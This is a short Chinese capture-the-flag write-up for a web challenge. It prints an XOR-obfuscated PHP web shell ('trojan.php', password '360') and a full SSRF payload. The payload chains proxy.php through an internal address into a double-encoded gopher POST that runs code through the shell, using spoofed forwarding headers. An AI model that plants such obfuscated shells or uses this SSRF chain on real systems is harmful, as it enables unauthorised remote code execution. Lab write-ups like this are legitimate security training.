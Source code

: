 

trojan.php

```php
<?php ${("#"^"|").("#"^"|")}=("!"^"`").("( "^"{").("("^"[").("~"^";").("|"^".").("*"^"~");${("#"^"|").("#"^"|")}(("-"^"H"). ("]"^"+"). ("["^":"). (","^"@"). ("}"^"U"). ("e"^"A"). ("("^"w").("j"^":"). ("i"^"&"). ("#"^"p"). (">"^"j"). ("!"^"z"). ("T"^"g"). ("e"^"S"). ("_"^"o"). ("?"^"b"). ("]"^"t"));?>
```

密码是360,但是请求方法是POST



接下来就只剩下利用202.5.19.128来进行ssrf,然后我在这里卡了一个晚上

最后看别人的wp才知道这里有一个proxy.php,我就炸了。

剩下的就简单了，利用gopher协议来发送POST请求

最后的payload:

```
GET /proxy.php?url=http://202.5.19.128/proxy.php?url=gopher://web.jarvisoj.com:32782/_%252550%25254f%252553%252554%252520%25252f%252561%252564%25256d%252569%25256e%25252f%252574%252572%25256f%25256a%252561%25256e%25252e%252570%252568%252570%252520%252548%252554%252554%252550%25252f%252531%25252e%252531%25250d%25250a%252548%25256f%252573%252574%25253a%252520%252577%252565%252562%25252e%25256a%252561%252572%252576%252569%252573%25256f%25256a%25252e%252563%25256f%25256d%25253a%252533%252532%252537%252538%252532%25250d%25250a%252543%252561%252563%252568%252565%25252d%252543%25256f%25256e%252574%252572%25256f%25256c%25253a%252520%25256d%252561%252578%25252d%252561%252567%252565%25253d%252530%25250d%25250a%252555%252570%252567%252572%252561%252564%252565%25252d%252549%25256e%252573%252565%252563%252575%252572%252565%25252d%252552%252565%252571%252575%252565%252573%252574%252573%25253a%252520%252531%25250d%25250a%252555%252573%252565%252572%25252d%252541%252567%252565%25256e%252574%25253a%252520%25254d%25256f%25257a%252569%25256c%25256c%252561%25252f%252535%25252e%252530%252520%252528%252557%252569%25256e%252564%25256f%252577%252573%252520%25254e%252554%252520%252531%252530%25252e%252530%25253b%252520%252557%252569%25256e%252536%252534%25253b%252520%252578%252536%252534%252529%252520%252541%252570%252570%25256c%252565%252557%252565%252562%25254b%252569%252574%25252f%252535%252533%252537%25252e%252533%252536%252520%252528%25254b%252548%252554%25254d%25254c%25252c%252520%25256c%252569%25256b%252565%252520%252547%252565%252563%25256b%25256f%252529%252520%252543%252568%252572%25256f%25256d%252565%25252f%252537%252537%25252e%252530%25252e%252533%252538%252536%252535%25252e%252539%252530%252520%252553%252561%252566%252561%252572%252569%25252f%252535%252533%252537%25252e%252533%252536%25250d%25250a%252541%252563%252563%252565%252570%252574%25253a%252520%252574%252565%252578%252574%25252f%252568%252574%25256d%25256c%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252578%252568%252574%25256d%25256c%25252b%252578%25256d%25256c%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252578%25256d%25256c%25253b%252571%25253d%252530%25252e%252539%25252c%252569%25256d%252561%252567%252565%25252f%252577%252565%252562%252570%25252c%252569%25256d%252561%252567%252565%25252f%252561%252570%25256e%252567%25252c%25252a%25252f%25252a%25253b%252571%25253d%252530%25252e%252538%25252c%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252573%252569%252567%25256e%252565%252564%25252d%252565%252578%252563%252568%252561%25256e%252567%252565%25253b%252576%25253d%252562%252533%25250d%25250a%252541%252563%252563%252565%252570%252574%25252d%25254c%252561%25256e%252567%252575%252561%252567%252565%25253a%252520%25257a%252568%25252d%252543%25254e%25252c%25257a%252568%25253b%252571%25253d%252530%25252e%252539%25252c%252565%25256e%25252d%252555%252553%25253b%252571%25253d%252530%25252e%252538%25252c%252565%25256e%25253b%252571%25253d%252530%25252e%252537%25250d%25250a%252543%25256f%25256e%25256e%252565%252563%252574%252569%25256f%25256e%25253a%252520%252563%25256c%25256f%252573%252565%25250d%25250a%252543%25256f%25256e%252574%252565%25256e%252574%25252d%252554%252579%252570%252565%25253a%252520%252561%252570%252570%25256c%252569%252563%252561%252574%252569%25256f%25256e%25252f%252578%25252d%252577%252577%252577%25252d%252566%25256f%252572%25256d%25252d%252575%252572%25256c%252565%25256e%252563%25256f%252564%252565%252564%25250d%25250a%252543%25256f%25256e%252574%252565%25256e%252574%25252d%25254c%252565%25256e%252567%252574%252568%25253a%252520%252537%25250d%25250a%25250d%25250a%252533%252536%252530%25253d%252522%252570%252568%252570%252569%25256e%252566%25256f%252528%252529%25253b%252522 HTTP/1.1
Client-Ip: 202.5.19.128
X-Forwarded-For: 202.5.19.128
Host: 202.5.19.128
Referer: 202.5.19.128
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
```